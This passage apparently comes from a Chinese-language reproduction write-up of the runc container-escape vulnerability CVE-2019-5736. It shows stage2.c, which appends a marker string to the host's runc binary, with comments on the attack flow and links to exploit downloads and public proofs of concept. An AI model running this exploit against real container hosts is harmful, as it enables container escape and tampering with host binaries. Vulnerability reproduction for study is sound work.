 ```
}


/*


__attribute__ ((constructor))
The constructor attribute causes the function to be called automatically before execution enters main (). 


打开当前进程的可执行文件，execve执行子进程stage2并将文件描述符作为参数传递给stage2
*/
```

```
$ cat stage2.c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>


int main(int argc, char **argv) {
    printf("HAX2: argv: %s\n", argv[1]);
    int fd = open(argv[1], O_RDWR|O_APPEND);
    printf("HAX2: fd: %d\n", fd);

    const char *poc = "cve-2019-5736";
    int res = write(fd, poc, strlen(poc));
    printf("HAX2: res: %d, %d\n", res, errno);
}

/*
根据stage1传入的runc路径， 将poc追加写入该文件末尾，完成对宿主机runc可执行文件的修改。
*/
```

## 复现环境Exp  
链接:[https://pan.baidu.com/s/1d1ABdQLDdKwEKkX2dW-cbw](https://pan.baidu.com/s/1d1ABdQLDdKwEKkX2dW-cbw)  密码:83fs

[twistlock@github](https://github.com/twistlock/RunC-CVE-2019-5736)

##  其他Poc  
[https://github.com/twistlock/RunC-CVE-2019-5736](https://github.com/twistlock/RunC-CVE-2019-5736)  

其他版本-Go版本：[by Frichetten@github](https://github.com/Frichetten/CVE-2019-5736-PoC)  
其他版本-C版本：[by feexd](https://github.com/feexd/pocs/tree/master/CVE-2019-5736)[@github](https://github.com/Frichetten/CVE-2019-5736-PoC)  
